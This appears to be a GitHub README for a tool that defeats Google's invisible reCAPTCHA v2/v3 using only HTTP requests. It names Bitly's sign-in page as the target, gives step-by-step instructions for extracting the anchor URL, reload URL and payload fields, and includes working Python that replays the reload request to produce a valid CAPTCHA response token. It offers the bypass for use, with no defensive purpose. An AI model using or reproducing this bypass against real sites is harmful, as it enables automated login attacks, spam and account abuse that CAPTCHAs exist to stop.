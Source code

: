 # Bypass Invisible Recaptcha v2 / v3

Allows to bypass an invisible recaptcha just with **HTTP requests**, without **Selenium** or **OCR**.
## Important

1 - This bypass does not work on all invisible recaptchas, **you have to try it** to know if it works on your recaptcha;

2 - This bypass only works on **invisible recaptchas**.

3 - You must have **some knowledge** of HTTP requests to understand

## EXPLOIT

**TARGET** : https://bitly.com/a/sign_in
### STEP 1
Inspect network to find the **recaptcha anchor url**.

![](https://i.ibb.co/fFprvrH/anchor.png)

### STEP 2
Inspect network to find the **recaptcha reload url**.

![](https://i.ibb.co/1J3gxYY/reload.png)

### STEP 3
Let's now look at the **payload** of the reload request

1 - Find **CHR** [xx, xx, xx]

![](https://i.ibb.co/sjmFYCc/chr.png)

2 - Find **VH** (The **number sequence** after the character *)

![](https://i.ibb.co/HrchVCB/vh.png)

3 - Find **BG** (Not me :D, the other BG inside the payload **from the character** ! **to the character** *)

Starts here

![](https://i.ibb.co/nDTFfsY/bg1.png)

Ends here

![](https://i.ibb.co/BwMRhPt/bg2.png)

### STEP 4
Run **bypass.py** with python3 and fill inputs.

![](https://i.ibb.co/MB3nDMN/inputs.png)

Recaptcha is **vulnerable** :D we can generate the **recaptcha response** with HTTP requests !

![](https://i.ibb.co/3WCj0XC/bypass.png)

### STEP 5
Go in the **bypassed.txt** file, take the **variables** and you can now create your script to generate the **recaptcha response**.



## Generate Recaptcha Response

```python
import requests

def generateresponse(anchorurl, reloadurl, payload):
    s = requests.Session()
    r1 = s.get(anchorurl).text
    token1 = r1.split('recaptcha-token" value="')[1].split('">')[0]
    payload = payload.replace("<token>", str(token1))
    r2 = s.post(reloadurl, data=payload, headers={"Content-Type": "application/x-www-form-urlencoded"})
    try:
        token2 = str(r2.text.split('"rresp","')[1].split('"')[0])
        return token2
    except:
        return ""
```

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## Credits
blank <3
